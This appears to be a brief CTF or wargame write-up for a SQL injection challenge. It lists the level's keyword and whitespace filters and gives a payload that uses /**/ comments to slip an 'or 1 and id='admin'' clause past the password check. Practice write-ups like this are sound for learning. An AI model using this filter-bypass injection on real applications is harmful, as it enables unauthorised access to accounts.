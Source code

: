 Filter1(pw): `prob` | `_` | `.` | `()` | `'` | `"` | ``` ` ```

Filter2(pw): ` ` (white space)

Bypass white space with `/**/`

PW: `123'/**/or/**/1/**/and/**/id='admin `

Payload: `?pw=123'/**/or/**/1/**/and/**/id='admin`


